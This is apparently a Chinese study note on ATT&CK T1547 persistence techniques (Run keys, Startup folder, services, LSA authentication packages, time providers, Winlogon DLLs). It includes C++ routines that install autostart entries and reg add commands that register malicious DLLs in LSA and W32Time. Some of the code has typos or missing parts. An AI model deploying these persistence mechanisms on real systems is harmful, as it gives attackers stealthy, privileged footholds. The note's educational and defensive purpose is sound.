

# ATT&CK学习笔记

[TOC]


------

## T1547——启动或登录自动化执行

| ID        | Name                    |
| --------- | ----------------------- |
| T1547.001 | 注册表运行项/启动文件夹 |
| T1547.002 | 认证包                  |
| T1547.003 | 时间提供程序            |
| T1547.004 | Winlogon 帮助程序 DLL   |
| T1547.005 | 安全支持提供程序        |
| T1547.006 | 内核模块和扩展          |
| T1547.007 | 重新开放的应用程序      |
| T1547.008 | LSASS 驱动程序          |
| T1547.009 | 快捷方式修改            |
| T1547.010 | 端口监视器              |
| T1547.012 | 打印处理器              |
| T1547.013 | XDG 自动启动条目        |
| T1547.014 | 活动设置                |
| T1547.015 | 登录项                  |


------

### T1547.001——注册表运行项 / 启动文件夹

#### 1、利用注册表运行项进行持久化

目标的主要运行键如下所示：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

除此之外，攻击者还可能利用旧条目（例如 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx）在登录过程中加载其他组件，包括 DLL。虽然此密钥在较新的 Windows 系统上不是默认的，但它在某些配置中的存在为隐秘持久化提供了途径。

例如，2024 年 2 月发布的 CISA 报告详细介绍了 Phobos 勒索软件使用 Exec.exe 或 bcdedit[.]exe 等命令来纵系统设置并保持持久性。还观察到 Phobos 利用 Windows 启动文件夹和运行注册表项（例如 C：/Users/Admin/AppData/Local/directory）来确保其有效负载重复启动。

2024 年 10 月，发现了一种较新的 Medusalocker 勒索软件变体，展示了攻击者如何自定义运行密钥以达到其恶意目的。与此变体相关的入侵指标 （IoC） 包括条目：

```
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\BabyLockerKZ
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\BabyLockerKZ
HKEY_USERS\%SID%\Software\Microsoft\Windows\CurrentVersion\Run\BabyLockerKZ
```

##### 关键函数

```c++
WINADVAPI LSTATUS
APIENTRY
RegOpenKeyExW(
    _In_ HKEY hKey,  // 当前打开或者预定义的键
    _In_opt_ LPCWSTR lpSubKey, // 指向一个非中断字符串将要打开键的名称
    _In_opt_ DWORD ulOptions,  // 保留，必须设置为 0
    _In_ REGSAM samDesired,    // 对指定键希望得到的访问权限进行的访问标记
    _Out_ PHKEY phkResult      // 指向一个变量的指针，该变量保存打开注册表的句柄
    );

WINADVAPI LSTATUS
APIENTRY
RegSetValueExW(
    _In_ HKEY hKey,  // 指定一个已打开项的句柄，或者一个标准项名
    _In_opt_ LPCWSTR lpValueName, // 指向一个字符串的指针，该字符串包含了欲设置值的名称
    _Reserved_ DWORD Reserved,    // 保留值，必须强制为 0
    _In_ DWORD dwType,            // 指定将存储的数据类型
    _In_reads_bytes_opt_(cbData) CONST BYTE* lpData, 
    // 指向一个缓冲区，该缓冲区包含了为指定名称存储的数据
    _In_ DWORD cbData // 指定由lpData参数所指向的数据大小，单位是字节
    );
```

##### 实现思路

要想修改注册表实现自启动，只需要在这个注册表键下添加想要设置自启动程序的程序路径。

```c++
BOOL RegCurrentUser(char *lpFileName, char *lpValueName)
{
	// 默认权限
	HKEY hKey;
	// 打开注册表键
	RegOpenKeyEx(HKEY_CURRENT_USER, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_WRITE, &hKey)
	// 修改注册表值，实现开机自启
	RegSetValueEx(hKey, lpszValueName, 0, REG_SZ, (BYTE *)lpszFileName, (1 + lstrlen(lpszFileName)))
	// 关闭注册表键
	RegCloseKey(hKey);
	return TRUE;
}

// 需管理员权限的路径
BOOL RegLocalMachine(char *lpFileName, char *lpValueName)
{
	// 管理员权限
	HKEY hKey;
	// 打开注册表键
	RegOpenKeyEx(HKEY_LOCAL_MACHINE, "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_WRITE, &hKey)
	// 修改注册表值，实现开机自启
	RegSetValueEx(hKey, lpszValueName, 0, REG_SZ, (BYTE *)lpszFileName, (1 + lstrlen(lpszFileName)))
	// 关闭注册表键
	RegCloseKey(hKey);
	return TRUE;
}
```


#### 2、利用启动文件夹技术进行持久化

“启动文件夹”是一种特别有效的持久化攻击载体，因为Windows在登录过程中会固有地检查这些位置，这使其成为一种无缝且低调的攻击机制。

Windows提供两种主要类型的“启动文件夹”，每种都适用于不同的范围：

```
# Individual User Startup Folder 
C:\Users\[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

# System-wide Startup Folder
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

2024.11, Snake Keylogger* 恶意软件，这种复杂的威胁被发现将其有效载荷放置在特定于用户的“启动”目录中，该目录位于：

```
C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\subpredicate.vbs 
```

##### 关键函数

```c++
BOOL SHGetSpecialFolderPathA(
  HWND  hwnd,    // 窗口所有者的句柄
  LPSTR pszPath, // 返回路径的缓冲区
  int   csidl,   // 系统路径的CSIDL标识
  BOOL  fCreate  // 指示文件夹是否要创建，false不创建 true创建
);
```

##### 实现方法

 快速启动目录并不是一个固定地目录，每台计算机地目录都不相同，但是可以使用`SHGetSpecialFolderPath`函数获取Windows系统中快速启动目录地路径，快速启动目录的`CSIDL`标识值为`CSIDL_STARTUP`。

```c++
BOOL AutoRun_Startup(char *lpszSrcFilePath, char *lpszDestFileName)
{
	BOOL bRet = FALSE;	//用于保存函数调用的返回结果（临时状态变量），初始化为FALSE
	char szStartupPath[MAX_PATH] = {0};
  // 存储系统启动目录的路径，MAX_PATH是Windows定义的最大路径长度（通常为 260 字节），初始化为全 0
	char szDestFilePath[MAX_PATH] = {0};
  // 存储目标文件的完整路径（启动目录 + 目标文件名），同样初始化为全 0
  
	// 获取 快速启动目录 路径
	bRet = SHGetSpecialFolderPath(NULL, szStartupPath, CSIDL_STARTUP, TRUE);
	printf("szStartupPath=%s\n", szStartupPath);
	if (FALSE == bRet)
	{
		return FALSE;
	}
	// 构造拷贝的 目的文件路径；将 “启动目录路径” 和 “目标文件名” 拼接为完整的目标文件路径
	wsprintf(szDestFilePath, "%s\\%s", szStartupPath, lpszDestFileName);
	// 拷贝文件到快速启动目录下
	bRet = CopyFile(lpszSrcFilePath, szDestFilePath, FALSE);
	if (FALSE == bRet){
		return FALSE;
	}
	return TRUE;
}
```


#### 3、操作注册表以控制启动项和服务

为了进一步确立自身的存在，攻击者可能会修改更多影响启动文件夹项目或控制系统启动期间服务自动启动的注册表项。他们通常会更改HKEY_CURRENT_USER和HKEY_LOCAL_MACHINE分支中的条目，从而影响用户外壳文件夹和服务启动配置。

这些操作涉及以下表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
```

例如，2024 年 12 月，一种恶意软件持久性技术利用注册表项 `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` 执行文件 `7D3ED97FB83B796922796.exe` 位于 `AppData\Roaming` 目录中。

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run Services C:\Users\user\AppData\Roaming\7D3ED97FB83B796922796\7D3ED97FB83B796922796.exe
```

通过使用这个注册表项，恶意软件确保了针对当前用户账户的持久性，而不显眼的位置以及随机化的文件夹/文件名则有助于规避检测。

##### 主要函数

```c++
WINADVAPI SC_HANDLE
    // 建立一个到服务控制管理器的连接，并打开指定的数据库
WINAPI OpenSCManagerW(
    _In_opt_     LPCWSTR        lpMachineName,    
    //指向零终止字符串，指定目标计算机的名称
    _In_opt_     LPCWSTR        lpDatabaseName,   
    //指向零终止字符串，指定将要打开的服务控制管理数据库的名称  SERVICES_ACTIVE_DATABASE
    _In_         DWORD          dwDesiredAccess
    // 指向服务访问控制管理器的权限
    );

WINADVAPI SC_HANDLE
  
    // 创建一个服务对象，并将其添加到指定的服务控制管理器数据库中
WINAPI CreateServiceW(
    _In_        SC_HANDLE    hSCManager,    // 指向服务控制管理器数据库的句柄
    _In_        LPCWSTR     lpServiceName,  // 要安装服务的名称
    _In_opt_    LPCWSTR     lpDisplayName,  // 用户界面用来识别服务的显示名称
    _In_        DWORD        dwDesiredAccess, // 对服务的访问
    _In_        DWORD        dwServiceType,   // 服务类型
    _In_        DWORD        dwStartType,    // 服务启动项
    _In_        DWORD        dwErrorControl, 
    // 当该服务启动失败时，指定产生错误严重程度以及应采取的保护措施
    _In_opt_    LPCWSTR     lpBinaryPathName,
    // 服务程序的二进制文件，它完全限定路径。如果路径中包含空格，则必须引用它，以便能正确地解析
    _In_opt_    LPCWSTR     lpLoadOrderGroup, // 指向加载排序组的名称
    _Out_opt_   LPDWORD      lpdwTagId,  // 指定的组中唯一的标记值变量
    _In_opt_    LPCWSTR     lpDependencies, 
    // 空分隔名称的服务或加载顺序组系统在这个服务开始之前的双空终止数组的指针 
    _In_opt_    LPCWSTR     lpServiceStartName, // 该服务应运行的账户名称
    _In_opt_    LPCWSTR     lpPassword // 由lpServiceStartName参数指定的账户名的密码
    );

WINADVAPI SC_HANDLE
  
    // 打开一个已经存在的服务
WINAPI OpenServiceW(
    _In_  SC_HANDLE  hSCManager,     // 指向SCM数据库句柄
    _In_  LPCWSTR    lpServiceName,  // 要打开服务的名字
    _In_  DWORD      dwDesiredAccess // 指定服务权限
    );

WINADVAPI BOOL
  
    // 启动服务
WINAPI StartServiceW(
    _In_            SC_HANDLE            hService,
    // OpenService或者CreateService函数返回的服务句柄，需要有SERVICE_START
    _In_            DWORD                dwNumServiceArgs,
    // 下一个形参的字符串个数
    _In_reads_opt_(dwNumServiceArgs)
                    LPCWSTR             *lpServiceArgVectors
    // 传递给服务ServiceMain的参数，如果没有可以为NULL
    );


WINADVAPI BOOL
    // 将服务进程的主线程连接到服务控制管理器，该线程将作为调用过程的服务控制分派器线程
WINAPI StartServiceCtrlDispatcherW(
    _In_ CONST  SERVICE_TABLE_ENTRYW    *lpServiceStartTable
    // 指向SERVICE_TABLE_ENTRY结构的指针，其中包含可在调用进程中执行的每个服务的条目
    );
```

##### 实现思路

1. 通过`OpenSCManager`函数打开服务控制管理器数据库并获取数据库的句柄

   ```c++
   BOOL SystemServiceOperate(char *lpszDriverPath, int iOperateType)
   {
   	BOOL bRet = TRUE;
   	char szName[MAX_PATH] = { 0 };
   
   	lstrcpy(szName, lpszDriverPath);
   	// 过滤掉文件目录，获取文件名
   	PathStripPath(szName);                   
   
   	SC_HANDLE shOSCM = NULL, shCS = NULL;
   	SERVICE_STATUS ss;
   	DWORD dwErrorCode = 0;
   	BOOL bSuccess = FALSE;
   	// 打开服务控制管理器数据库
   	shOSCM = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
   	if (!shOSCM){
   		ShowError("OpenSCManager");
   		return FALSE;
   	}
   
   	if (0 != iOperateType){
   		// 打开一个已经存在的服务
   		shCS = OpenService(shOSCM, szName, SERVICE_ALL_ACCESS);
   		if (!shCS)
   		{
   			ShowError("OpenService");
   			CloseServiceHandle(shOSCM);
   			shOSCM = NULL;
   			return FALSE;
   		}
   	}
   
   	switch (iOperateType){
   	case 0:{
   		// 创建服务
   		// SERVICE_AUTO_START   随系统自动启动
   		// SERVICE_DEMAND_START 手动启动
   		shCS = CreateService(shOSCM, szName, szName,
   			SERVICE_ALL_ACCESS,
   			SERVICE_WIN32_OWN_PROCESS | SERVICE_INTERACTIVE_PROCESS,
   			SERVICE_AUTO_START,
   			SERVICE_ERROR_NORMAL,
   			lpszDriverPath, NULL, NULL, NULL, NULL, NULL);
   		if (!shCS){
   			ShowError("CreateService");
   			bRet = FALSE;
   		}
   		break;
   	}
   	case 1:{
   		// 启动服务
   		if (!StartService(shCS, 0, NULL))
   		{
   			ShowError("StartService");
   			bRet = FALSE;
   		}
   		break;
   	}
   	case 2:{
   		// 停止服务
   		if (!ControlService(shCS, SERVICE_CONTROL_STOP, &ss))
   		{
   			ShowError("ControlService");
   			bRet = FALSE;
   		}
   		break;
   	}
   	case 3:{
   		// 删除服务
   		if (!DeleteService(shCS)){
   			ShowError("DeleteService");
   			bRet = FALSE;
   		}
   		break;
   	}
   	default:
   		break;
   	}
   	// 关闭句柄
   	if (shCS){
   		CloseServiceHandle(shCS);
   		shCS = NULL;
   	}
   	if (shOSCM){
   		CloseServiceHandle(shOSCM);
   		shOSCM = NULL;
   	}
   	return bRet;
   }
   ```

2. 系统服务程序的编写

   自启动服务程序并不是普通的程序，而是要求程序创建服务入口点函数，否则，不能创建系统服务。

   调用系统函数`StartServiceCtrlDispatcher`将程序的主线程连接到服务控制管理程序，服务控制管理程序启动服务后，等待服务控制主函数调用`StartServiceCtrlDispatcher`函数，如果没有调用该函数时设置服务入口点，则会报错。

   服务程序`ServiceMain`入口函数的代码

```c++
void __stdcall ServiceMain(DWORD dwArgc, char *lpszArgv)
{
	g_ServiceStatusHandle = RegisterServiceCtrlHandler(g_szServiceName, ServiceCtrlHandle);

	TellSCM(SERVICE_START_PENDING, 0, 1);
	TellSCM(SERVICE_RUNNING, 0, 0);

	while (TRUE)
	{
		Sleep(5000);
		DoTask();
	}
}
```


#### 4、启动执行作为渗透方法

攻击者还可能以 HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session Manager 中的 BootExecute 值为目标。默认情况下，此密钥用于系统完整性检查，但可以被利用在系统启动时运行其他恶意程序或进程，确保在采取许多安全措施之前激活它们。

### T1547.002——认证包(Authentication Package)

```shell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Authentication Packages" /t REG_MULTI_SZ /d "C:\Path\To\evil.dll" /f
```

该命令会将他们的恶意动态链接库（evil.dll）添加到身份验证包列表中。当系统启动时，拥有高权限运行的LSA进程会加载这个动态链接库。因此，恶意代码会获得提升的权限，并在系统上下文中无缝执行。通过将代码嵌入到如此关键的系统进程中，攻击者确保其有效载荷保持活跃且不被检测到，并在每次系统启动时执行。

 2024 年 6 月进行的一项恶意软件沙箱分析 [5]，我们发现了一种与 Windows 本地安全机构系统相关联的持久化机制。



恶意软件会操纵注册表路径``System\CurrentControlSet\Control\LsaExtensionConfig\LsaSrv`和`System\CurrentControlSet\Control\Lsa`，这从将这些字符串加载到rdx寄存器的指令中可以看出。这些注册表项在配置LSA扩展和身份验证包方面发挥着重要作用，而这两者对于系统的登录和安全进程都至关重要。通过修改这些项，恶意软件确保其恶意代码会在每次系统启动时被权限极高的LSA进程（lsass.exe）加载，从而实现持久化。

元数据中的“Hidden”（隐藏）属性表明，该恶意软件采用混淆技术，以避开标准检查工具对这些注册表更改的检测，从而增强其隐蔽性。lea rdx, qword ptr指令为进一步的操作（如查询、修改或注入恶意DLL）准备注册表项地址。这种行为与攻击者的常见策略相符，即他们利用Lsa或LsaExtensionConfig项加载其有效负载，从而在LSA进程的可信且提升的上下文环境中执行操作。

### T1547.003——Time Providers

在 Windows 中，**W32Time 服务**可确保域内和域间的时间同步。该服务中的时间提供程序以 DLL 的形式实现，从各种来源获取和分发时间戳。它们在 Windows 注册表中注册，这使其成为攻击者的有吸引力的目标，这些攻击者可以用恶意 DLL 替换合法 DLL，从而利用这一重要的同步机制来达到邪恶目的。

```shell
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\
```

通过获得管理权限，攻击者可以更改此注册表项以包含恶意 DLL。这通常是使用 reg add 命令完成的。例如，他们可能会添加一个新的子项来将其恶意 DLL 注册为时间提供程序，使用如下命令：

```shell
"HKLM\System\CurrentControlSet\Services\W32Time\TimeProviders\MyMaliciousTimeProvider" /v "DllName" /d "C:\Path\To\Malicious.dll" /f 
```

这种方法隐蔽且有效，将恶意软件嵌入到基本的系统服务中。当系统启动或W32Time服务重新启动时，服务控制管理器会加载注册的时间提供程序，包括恶意DLL。该DLL在本地服务帐户下运行，拥有足够的权限来执行各种恶意活动，利用时间同步服务在网络操作中的关键作用。

### T1547.004 Winlogon Helper DLL 

Winlogon Helper DLL 扩展了 Windows 登录进程的功能，在用户会话期间执行代码。这些 DLL 是系统操作的一部分，由 Winlogon 加载，管理用户登录、安全性和界面。由于其提升的权限和在系统进程中的关键作用，攻击者经常利用这些 DLL 来秘密执行恶意代码，从而获得对受感染系统的持久、高级访问权限。


